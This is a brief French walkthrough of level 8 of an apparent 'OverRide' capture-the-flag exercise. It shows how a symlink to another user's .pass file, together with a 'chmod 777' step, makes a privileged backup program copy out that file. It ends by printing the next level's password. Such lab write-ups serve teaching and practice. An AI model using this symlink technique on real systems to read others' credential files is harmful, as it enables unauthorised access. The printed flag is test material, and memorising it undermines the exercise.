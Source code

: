 # LEVEL08

Nous avons un éxécutable qui prend un fichier en paramètre

```
./level08 [file]

1. open ./backup/.log
2. log_wrapper()-> write_log("Starting back up: " + file);
3. open file
4. write file in backup
5. close
```

```


```


Nous pouvons faire un lien symbolique pour essayer de lire le mot de passe 

```
lrwxrwxrwx  1 level08 level08    25 Dec  2 14:23 symlink -> /home/users/level09/.pass
```

Il y a une erreur :

```
level08@OverRide:~$ ./level08 symlink 
ERROR: Failed to open symlink
```

```
chmod 777 .
level08@OverRide:~$ ./level08 symlink
level08@OverRide:~$ cat backups/symlink 
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```